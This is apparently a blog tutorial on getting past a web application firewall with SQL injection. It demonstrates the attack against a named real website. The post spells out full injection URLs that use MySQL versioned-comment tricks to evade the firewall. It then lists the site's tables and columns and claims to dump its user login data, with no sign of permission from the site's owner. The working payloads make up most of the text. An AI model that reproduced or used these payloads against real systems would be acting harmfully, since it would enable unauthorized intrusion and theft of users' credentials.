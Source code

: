 -   Here is an example site [https://www.aquacity.com.pk](https://www.aquacity.com.pk) which we are going to test. in the previous article, we have discussed how you can find a table and columns, etc., so in this article, I am skipping that part

![enter image description here](https://i.postimg.cc/gkQ9Jg8K/1-waff.png)

-   As you can see, WAF detects the usual payload, so let’s try to bypass that shit.

![enter image description here](https://i.postimg.cc/0yXCx4S8/waff2222.png)

So here you can see that our new payload has bypassed the firewall.

`https://www.aquacity.com.pk/page.php?id=-1' /!50000union/ /!50000select/ 1,2,3--+-`

-   Now it’s time to dump the table.

![enter image description here](https://i.postimg.cc/P5DmsqdM/3-wafffff.png)

`https://www.aquacity.com.pk/page.php?id=-1' /!50000union/ select 1,group_concat(table_name,0x3c62723e),3 /!50000from/ /!50000information_schema.tables/ where table_schema=database()--+-`

-   Column dump

![enter image description here](https://i.postimg.cc/nh6fr3bJ/4-wafffffffffffffff.png)

`https://www.aquacity.com.pk/page.php?id=-1' /!50000union/ /!50000select/ 1,group_concat(column_name,0x3c62723e),3 /!50000from/ /!50000information_schema.columns/ /!50000where/ /!50000table_name/=CHAR(108, 111, 103, 105, 110)--+-`

-   Now it’s the final thing to do is dump login data

![enter image description here](https://i.postimg.cc/85ZyJCJ6/5waffffffffffffff.png) as you see, we fetch user login details of the site by bypassing the firewall.

As I cannot talk about every one of the subjects in a single instructional exercise, we will stop here for this part. We Will begin with different subjects on WAF in the following detail; till then have fun…keep learning :)

### Thanks for reading
